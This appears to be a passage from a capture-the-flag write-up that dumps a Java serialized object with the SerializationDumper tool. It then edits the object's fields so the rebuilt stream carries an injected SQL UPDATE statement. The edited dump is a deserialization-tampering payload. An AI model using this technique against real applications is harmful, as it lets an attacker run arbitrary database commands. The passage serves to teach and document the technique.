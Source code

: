 ```
        1:
          Boolean - Z - 0x5a
          fieldName
            Length - 8 - 0x00 08
            Value - isUpdate - 0x6973557064617465
        2:
          Object - L - 0x4c
          fieldName
            Length - 15 - 0x00 0f
            Value - pathOrStatement - 0x706174684f7253746174656d656e74
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)false - 0x00
          isUpdate
            (boolean)false - 0x00
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 41 - 0x00 29
                Value - /opt/SatelliteQueryFileFolderUtility.java - 0x2f6f70742f536174656c6c697465517565727946696c65466f6c6465725574696c6974792e6a617661
```

The tool also has a very interesting feature to rebuild serilization streams. By saving the above output as a text file, I can edit it and rebuild it using the SerializationDumper tool. I made the following edits to the text file - isQuery, isUpdate, Length and Value:

<pre>
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)<b>true - 0x01</b>
          isUpdate
            (boolean)<b>true - 0x01</b>
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - <b>52 - 0x00 34</b>
                Value - <b>UPDATE pointing_mode SET numerical_mode=1 WHERE id=1 - 0x55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f64653d312057484552452069643d31</b>
</pre>
